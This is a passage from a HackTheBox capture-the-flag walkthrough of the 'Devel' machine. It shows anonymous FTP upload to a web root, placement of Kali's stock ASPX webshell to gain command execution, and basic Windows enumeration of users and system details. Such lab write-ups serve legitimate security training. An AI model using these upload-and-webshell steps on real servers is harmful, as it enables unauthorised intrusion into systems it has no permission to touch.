 ![](GitHubv2/HackTheBox/EASY/Devel/screenshots/ftp.png)

We successfully log in and can list resources. To check if file uploads are allowed, we create and upload a test file:

```bash
put test.txt
```

![](GitHubv2/HackTheBox/EASY/Devel/screenshots/ftp_upload_test.png)

The file uploads successfully, confirming we can place files in the webroot.

---
### 2.2 Uploading a Webshell

We upload the default ASPX webshell from Kali:

```bash
cp /usr/share/webshells/aspx/cmdasp.aspx .
ftp 10.10.10.5
put cmdasp.aspx
whoami
```

![](GitHubv2/HackTheBox/EASY/Devel/screenshots/ftp_upload_shell.png)

We obtain remote command execution as user `iis apppool\web`.

---
### 2.3 System Enumeration

Check system details:

```bash
systeminfo
```

![](GitHubv2/HackTheBox/EASY/Devel/screenshots/webshell_sysinfo.png)

List users:

```bash
dir C:\Users
```

![](GitHubv2/HackTheBox/EASY/Devel/screenshots/webshell_users.png)

Check contents of `babis`:

```bash
dir C:\Users\babis
```

![](GitHubv2/HackTheBox/EASY/Devel/screenshots/webshell_babis.png)

No useful information found.

---